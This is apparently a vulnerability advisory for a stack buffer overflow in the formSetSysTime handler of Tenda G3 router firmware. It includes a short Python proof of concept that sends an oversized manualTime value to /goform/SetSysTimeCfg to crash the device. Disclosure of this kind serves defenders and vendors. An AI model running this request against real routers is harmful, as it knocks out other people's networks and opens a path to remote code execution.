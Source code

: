 # Tenda G3 formSetSysTime
### Overview
vendor: Tenda

product: G3

version: <= G3V3.0br_V15.11.0.17

type: Stack Overflow

Firmware download address ： https://www.tenda.com.cn/material/show/3107
### Vulnerability Description
Tenda G3 G3V3.0br_V15.11.0.17 were discovered to contain a stack overflow in the formSetSysTime function.
### Vulnerability details
Stack-based buffer overflow in function formSetSysTime on Tenda G3 before G3V3.0br_V15.11.0.17 devices allow remote attackers to cause a denial of service or remote code execution via a crafted parameter for the http post request.

In the function formSetSysTime line 57, it reads in a user-provided parameter, and the variable manualTime is passed to the sscanf function without any length check, which may overflow the stack-based buffer. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.
![](images/formSetSysTime-1.png)

### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/goform/SetSysTimeCfg'
payload = {
    "manualTime": 'a' * 2000
}

res = requests.post(url=url, data=payload)
print(res.content)
```
